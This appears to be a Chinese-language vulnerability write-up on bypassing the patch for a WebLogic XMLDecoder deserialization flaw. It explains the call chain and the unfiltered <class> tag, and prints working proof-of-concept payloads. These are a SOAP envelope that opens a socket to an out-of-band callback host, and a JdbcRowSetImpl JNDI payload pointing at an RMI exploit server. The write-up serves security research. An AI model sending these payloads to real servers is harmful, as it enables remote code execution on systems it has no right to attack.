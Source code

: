 ```
// omit
```

![image-20221013104107459](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20221013104107459.png)

见到了我们日思夜想的readObject（正好位于构造方法中，可以绕过之前fix不能调用方法的限制），把array中嵌套的byte标签中的内容进行readObject处理，后面的内容我们可以衔接7u21的原生链，将payload转换为byte发送

注1：这也就是为什么假poc泛滥猖獗的原因，因为这个WorkContextImlInputAdapter在cve-2017-10271中也可以触发，后面跟着XMLDecoder，也可以粗暴的理解：WorkContextImlInputAdapter是cve-2017-10271的一个触发点，而我们这里的WorkAreaServerHandler就调用了WorkContextImplInputAdapter，所以假poc只不过是找到了cve-2017-10271的又一个新的触发点，而没有真正绕过validate的黑名单

payload被传入后执行的流程大致是这样的：

```
AsyncResponseService-> HandlerIterator-> WorkAreaServerHandler-> WorkContextXmlInputAdapter-> validate-> XMLDecoder-> readObject
```

所以正经poc是怎么绕过的呢？在补丁中忽略了`<class>`标签，它可以代表一个类的实例，我们可以用它创建任意类的实例，也就是正经poc中的

```
<java><class>......</class></java>
```

一个测试poc

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java><class><string>java.net.Socket</string><void><string>weblogic.30nux0.ceye.io</string><int>80</int></void></class></java>
 </work:WorkContext>
 </soapenv:Header>
 <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

如果加换行符会在jdk7上失败，不加换行符在6和7上都可以

#### poc2 - JdbcRowSetImpl(jdk7)

在12c中没有oracle.toplink.internal.sessions.UnitOfWorkChangeSet，自然也用不了上面的poc，但是class标签还是有的，可以创建类的实例但调用不了方法（我们只能找对应类的构造方法），同时12.1.3的最低支持版本为1.7，12.2.1及以上最低版本为1.8，11g的最低版本为1.6

jdk6和jdk7处理标签的方式不同，jdk6使用的是com.sun.beans.ObjectHandler，jdk7使用的是com.sun.beans.decoder.DocumentHandler，比jdk6新增了new, property等标签的支持，再配合com.sun.rowset.JdbcRowSetImpl来执行命令

JdbcRowSetImpl也是2017-10271的一个绕过方式，poc长这样

```xml
<java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="com.sun.rowset.JdbcRowSetImpl">
    <void property="dataSourceName">
        <string>rmi://localhost:1099/Exploit</string>
    </void>
    <void property="autoCommit">
        <boolean>true</boolean>
    </void>
    </void>
</java>
```
